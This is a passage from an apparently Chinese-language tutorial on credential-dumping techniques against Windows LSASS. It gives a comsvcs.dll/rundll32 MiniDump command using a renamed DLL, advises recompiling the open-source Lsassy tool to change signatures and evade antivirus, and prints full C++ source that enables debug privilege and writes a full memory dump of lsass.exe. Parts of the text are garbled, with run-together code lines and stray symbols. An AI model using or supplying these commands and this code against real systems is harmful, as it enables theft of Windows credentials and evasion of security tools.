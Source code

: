     
    
    copy C:\windows\System32\comsvcs.dll 110.dllrundll32.exe 110.dll, MiniDump 508 lsass.dmp full

 _（向右滑动，查看更多）_

###  ****

###  

###  **技巧六：开源工具Lsassy转存储**

  
这个是GitHub上开源的一款工具，但是无法绕过免杀，一上就被杀。但是我们可以借鉴一下源码，可以通过Go语言编译修改特征码或者替换敏感函数...操作。达到一个比较好的一个免杀效果（GitHub项目的开源地址：https://github.com/Hackndo/lsassy）。  
而且Lsassy可以当做Python库，它可以搭配其他库，编写出python版本的Mimikatz。Lsassy不仅使用了impacket从Lsass.exe导出数据中远程读取所需的敏感内容，还使用了pypykatz来提取用户凭证（而且携带的内容丰富，包括上面介绍的一种方法）。  
![](https://gitee.com/fuli009/images/raw/master/public/20221009195157.png)  
小提示：这个只适用于我们的域环境，毕竟批量操作是真的香啊！

###  

###  **技巧七：利用快照转存储**

    
    
      
    
    
      *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
     #include <windows.h>#include <DbgHelp.h>#include <iostream>#include <TlHelp32.h>  
    #pragma comment ( lib, "dbghelp.lib" )  
    using namespace std;  
    #define INFO_BUFFER_SIZE 32767  
    std::wstring s2ws(const std::string& s){int len;int slength = (int)s.length() + 1;len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);wchar_t* buf = new wchar_t[len];MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);std::wstring r(buf);delete[] buf;return r;}// 提升权限为 debugbool EnableDebugPrivilege(){HANDLE hToken;LUID sedebugnameValue;TOKEN_PRIVILEGES tkp;  
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)){return   FALSE;}if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue)) //修改进程权限{CloseHandle(hToken);return false;}tkp.PrivilegeCount = 1;tkp.Privileges[0].Luid = sedebugnameValue;tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) //通知系统修改进程权限{CloseHandle(hToken);return false;}return true;}  
    int main() {char filename[INFO_BUFFER_SIZE];char infoBuf[INFO_BUFFER_SIZE];DWORD  bufCharCount = INFO_BUFFER_SIZE;GetComputerNameA(infoBuf, &bufCharCount);strcpy_s(filename, infoBuf);strcat_s(filename, "-");strcat_s(filename, "lsass.dmp");  
    DWORD lsassPID = 0;HANDLE lsassHandle = NULL;HANDLE outFile = CreateFileA(filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);PROCESSENTRY32 processEntry = {};  // 拍摄快照时驻留在系统地址空间里的进程列表结构体processEntry.dwSize = sizeof(PROCESSENTRY32);   //结构大小LPCWSTR processName = L"";  //进程名  
    if (Process32First(snapshot, &processEntry)) {  //检索快照中第一个进程的信息while (_wcsicmp(processName, L"lsass.exe") != 0) {  //循环检索快照中的进程Process32Next(snapshot, &processEntry);processName = processEntry.szExeFile;   // 获取当前进程的进程名lsassPID = processEntry.th32ProcessID;}wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;}  
    if (EnableDebugPrivilege() == false){printf("enable %d", GetLastError());}EnableDebugPrivilege();lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID); // 根据 Pid 打开 lsass.exe 进程，获取句柄BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL); //转储lsass，写入outfile  
    if (isDumped) {cout << "[+] Save To " << filename << endl;cout << "[+] lsass dumped successfully!" << endl;}  
    return 0;}

